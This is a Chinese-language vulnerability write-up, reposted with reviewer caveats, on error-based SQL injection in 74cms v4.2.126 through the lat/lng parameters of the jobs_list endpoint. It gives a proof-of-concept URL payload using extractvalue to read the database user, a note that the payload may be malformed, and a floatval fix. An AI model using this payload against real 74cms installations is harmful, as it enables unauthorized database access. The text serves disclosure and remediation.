




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：4.2.126 stated; job data with geographical fields; lat/lng search

- **事实待核（1）**：Title '通杀' overstates unbounded scope without version evidence。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：Payload appears to omit multiplication between coordinate and PI(); compare screenshot/original。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **证据待核（3）**：Bare 16.png text and many cross-article image paths obscure code analysis。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（4）**：Float conversion mitigation shown in text; distinguish this sink from match-operator injection。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 74cms v4.2.126-通杀sql注入

0x00 前言
=========

厂商：74cms下载地址：<http://www.74cms.com/download/index.html>

关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
======================

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为  <http://baidu.com> 即可

0x02 数据填充不然没得测试
=========================

0x02.1注册商家账号方便测试
--------------------------

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了注册完成以后将此商家用户登录前台

0x02.2注册普通账号方便测试
--------------------------

0x03 sql漏洞演示
================

这样的话只要点击完以后有数据 你在 lat  lng  字段都可以正常的进行注入

    Payload: 
    http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a

0x04 漏洞原理
=============

> **图片待核**：原归档在此处仅保留文件名 `16.png`，没有可对应的图片引用。

说明我们的猜想是没有错的。

所以最终我们符合条件的内容都会赋值为\$this-\>params

0x05 修复方法
=============

    $this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2)+COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range";

强转为浮点型，防止注入

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2
